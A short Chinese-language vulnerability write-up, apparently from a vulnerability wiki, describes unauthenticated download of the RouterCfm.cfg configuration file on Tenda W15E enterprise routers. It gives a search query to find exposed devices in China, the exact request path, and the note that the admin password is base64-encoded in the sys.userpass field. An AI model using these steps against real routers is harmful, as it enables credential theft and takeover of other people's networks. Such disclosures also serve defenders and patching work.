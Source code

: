 # Tenda W15E企业级路由器 RouterCfm.cfg 配置文件泄漏漏洞

## 漏洞描述

Tenda 企业级路由器 RouterCfm.cfg 配置文件可在未授权的情况下被读取，导致账号密码等敏感信息泄漏

## 漏洞影响

<a-checkbox checked>Tenda 企业级路由器</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title=="Tenda | Login" && country="CN"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1642645426007-dae7304a-c0b0-4e24-b622-c4c4cae93f13.png)

访问路径

```go
/cgi-bin/DownloadCfg/RouterCfm.cfg
```

![img](../../../.vuepress/public/img/1642645500607-fbcda323-b8f8-406d-a77a-2cea223b9f77.png)

后台账号密码位于参数 **sys.userpass** base64解密后的字符

![img](../../../.vuepress/public/img/1642645610038-094fc290-4ccc-4579-8eef-cf7bee34344e.png)



